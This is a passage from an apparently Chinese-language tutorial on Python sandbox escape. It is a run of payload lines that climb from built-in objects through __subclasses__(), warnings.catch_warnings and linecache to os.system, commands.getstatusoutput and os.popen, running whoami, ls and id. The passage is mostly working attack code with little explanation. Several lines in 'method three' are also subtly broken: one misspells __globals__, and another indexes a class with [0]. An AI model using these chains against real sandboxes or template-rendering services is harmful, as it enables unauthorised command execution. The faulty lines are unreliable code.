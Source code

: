 

**方法二：利用warnings.catch\_warnings进行命令执行**

查看warnings.catch\_warnings方法的位置

```python
[].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
```

查看linecatch的位置

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')
```

查找os模块的位置

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')
```

查找system方法的位置（在这里使用os.open().read()一样可以实现一样的效果，步骤一样，不再复述）

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('system')
```

调用systen方法

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
```



**方法三：利用commands进行命令执行**

```python
{}.__class__.__base__[0].__subclasses__()[59].__init__.globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')
```

```python
{}.__class__.__base__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('ls')
```

```python
{}.__class__.__base__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```













